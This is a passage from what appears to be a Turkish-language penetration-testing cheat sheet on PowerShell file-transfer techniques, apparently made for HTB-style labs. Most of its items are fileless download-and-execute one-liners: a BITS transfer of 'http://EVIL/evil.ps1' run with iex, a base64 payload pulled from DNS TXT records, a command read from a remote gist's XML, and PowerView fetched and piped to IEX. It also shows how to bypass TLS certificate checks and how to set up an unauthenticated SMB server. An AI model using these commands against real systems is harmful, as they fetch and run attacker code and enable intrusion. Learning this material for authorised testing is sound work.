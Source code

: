 
### 9- Bits Transfer ile İndirme (Disk Kullanır)

```powershell-session
Import-Module bitstransfer;
Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;
$r = gc $env:temp\t;
rm $env:temp\t;
iex $r
```

### 10 - DNS TXT Kayıtları ile İndirme

```powershell-session
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select-String -Pattern '"*"') -split '"')[0])))
```


### 11- XML ile Komut Almak

```powershell-session
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```


### 12- Internet Explorer düzgün başlatılmamış veya yapılandırılmamışsa

```powershell-session
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

### 13- SSL/TSL Sertifika Hataları Atlama 
```powershell-session

PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

```


### 14- SMB İle File Transfer (Kimliksiz)

##### 1- Create the SMB Server

```shell-session
impacket-smbserver share -smb2support /tmp/smbshare
```


##### 2- SMB Sunucusundan Bağlanma ve Dosya Kopyalama

```cmd-session
net use Z: \\192.168.220.28\share
```
